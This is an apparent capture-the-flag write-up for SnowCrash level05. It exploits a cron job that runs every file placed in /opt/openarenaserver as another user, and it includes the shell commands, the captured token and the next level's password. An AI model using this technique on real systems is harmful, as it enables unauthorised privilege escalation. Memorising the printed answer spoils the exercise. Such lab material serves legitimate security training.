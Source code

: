 # level05

- We login as user level05, we can see a notification: `You have new mail`.
```
level05@SnowCrash:~$ ls /var/mail
level05
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

- It looks like a [Cron](https://en.wikipedia.org/wiki/Cron) instruction. It indicates that every two minutes, the command `sh /usr/sbin/openarenaserver` will be executed by user flag05.
```
level05@SnowCrash:~$ ls -l /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver

level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
 (ulimit -t 5; bash -x "$i")
 rm -f "$i"
done
```


- This shell script runs `bash -x` on all the items present in the directory `/opt/openarenaserver/`, with a fixed limit of 5 seconds for each execution. Afterward, the respective item is deleted.
```
level05@SnowCrash:~$ echo "getflag > /tmp/flag2level06" > /opt/openarenaserver/exploit.sh
level05@SnowCrash:~$ chmod +x /opt/openarenaserver/exploit.sh

level05@SnowCrash:~$ cat /tmp/flag2level06
Check flag.Here is your token : viuaaale9huek52boumoomioc

level05@SnowCrash:~$ su level06
Password:viuaaale9huek52boumoomioc
level06@SnowCrash:~$
```